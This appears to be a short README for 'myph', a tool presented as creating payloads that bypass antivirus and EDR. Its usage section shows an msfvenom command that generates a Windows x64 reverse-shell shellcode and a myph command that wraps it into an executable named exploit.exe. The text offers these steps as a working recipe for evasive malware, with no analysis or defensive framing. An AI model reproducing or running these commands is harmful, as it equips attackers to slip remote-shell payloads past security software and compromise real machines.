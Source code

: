 # myph

AV/EDR bypass payload creation tool

## Usage

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=80 -f raw -o msf.raw

# run myph
./myph --shellcode msf.raw --outfile exploit.exe
```
